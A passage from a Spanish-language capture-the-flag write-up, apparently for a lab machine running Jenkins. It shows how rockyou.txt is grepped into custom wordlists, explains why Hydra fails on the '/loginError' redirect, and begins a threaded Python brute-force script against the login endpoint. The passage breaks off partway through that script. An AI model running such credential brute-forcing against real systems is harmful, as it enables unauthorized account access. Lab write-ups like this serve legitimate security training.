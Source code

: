 Por tanto, como no he podido obtener ninguna ruta ni tengo credenciales, intento logarme con credenciales por defecto, al igual que en la máquina anterior. Pero no consigo acceder, por lo que creo un diccionario personalizado de contraseñas a partir de la extracción de palabras clave (admin, root, password, jenkins) del famoso diccionario "rockyou.txt":

```
# cat /usr/share/wordlists/rockyou.txt | grep "admin" >> passwords.txt
# cat /usr/share/wordlists/rockyou.txt | grep "root" >> passwords.txt
# cat /usr/share/wordlists/rockyou.txt | grep "password" >> passwords.txt
# cat /usr/share/wordlists/rockyou.txt | grep "jenkins" >> passwords.txt
```

También creo un diccionario de usuarios, que corresponde a los usuarios por defecto más comunes en este tipo de servicios web (admin, root, administrator):

```
# cat users.txt                                                         

admin
root
administrator
```

Una vez tengo los diccionarios, lanzo un ataque de fuerza bruta al diccionario mediante la herramienta `Hydra`, tal y como había realizado en la máquina Crocodile anteriormente. Pero, en este caso, cuando se produce un error de credenciales, no muestra un mensaje de error y se mantiene en la misma página, sino que hace una redirección a la ruta "/loginError". Es por este motivo que no podemos utilizar *Hydra* para realizar el ataque, ya que debido a un bug no redirige a ninguna IP (lo podéis encontrar de formá más detallada en esta issue de Github (https://github.com/vanhauser-thc/thc-hydra/issues/259) o realizando un debug en Hydra mediante la flag -d).

Por tanto, creo un script simple de Python para realizar un ataque. Para una mayor rapidez en el ataque, el script trabaja con hilos de tal forma que divide el número de usuarios entre la cantidad de hilos con los que se quiere trabajar. En este caso, al haber solo 3 usuarios, daría igual que pusiesemos más hilos, solo trabajará con 3. Si, por ejemplo, tuviesemos 16 usuarios y quisieramos trabajar con 10 hilos, se repartirían de forma equitativa, quedando los 6 primeros hilos con 2 usuarios y los 4 restantes con 1 usuario.

```python
#!/usr/bin/python3

import sys, requests, threading, pwn, time

#Global variables
n_threads = 10
user_list = []
pass_list = []
divided_list = []
t_list = []
login_url = "http://10.129.84.21:8080/j_spring_security_check"
initial_time = 0
end_time = 0

#Lock
password_found = False

#Store the user dictionary in a list
f = open("users.txt", "r")
[user_list.append(p.replace("\n","")) for p in f]
user_list.reverse()
f.close()

def makeRequest(user_list):

	global password_found
	while len(user_list) > 0:
		user = user_list.pop()
```